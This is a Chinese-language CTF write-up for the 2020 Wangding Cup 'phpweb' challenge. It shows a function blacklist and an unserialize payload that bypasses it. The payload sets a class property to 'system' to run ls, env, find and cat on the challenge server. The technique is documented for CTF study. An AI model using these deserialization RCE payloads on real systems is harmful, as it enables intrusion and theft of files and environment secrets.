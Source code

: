 ### [网鼎杯 2020 朱雀组]phpweb

---
tag: 
	- rce
---

抓包发现POST了两个参数：联想到date函数

```
func=             &p= 
```

我们故意输错

通过报错我们可以发现使用的是`call_user_func`

```
func=file_get_contents&p=index.php
```

读出**index.php**的内容

```php
    <?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

我们可以发现这个`Test`类,没有过滤，我们可以通过构造一个反序列化的Payload

```php
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
```

构造如下：
```php
<?php
class Test {
        var $p = "ls /";
        var $func = "system";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }

$a = new Test();
echo serialize($a);

O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
//我们传参数
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```

![image-20241018154247165](https://gitee.com/bx33661/image/raw/master/path/image-20241018154247165.png)

发现成功了，我们读取根目录和当前目录都没有发现flag，我们尝试寻找环境变量：

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:3:"env";s:4:"func";s:6:"system";}
```

![image-20241018154441873](https://gitee.com/bx33661/image/raw/master/path/image-20241018154441873.png)

也没有，我们尝试find

```
O:4:"Test":2:{s:1:"p";s:18:"find / -name flag*";s:4:"func";s:6:"system";}
```

![image-20241018154717933](https://gitee.com/bx33661/image/raw/master/path/image-20241018154717933.png)

最后---->cat

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```

![image-20241018154850895](https://gitee.com/bx33661/image/raw/master/path/image-20241018154850895.png)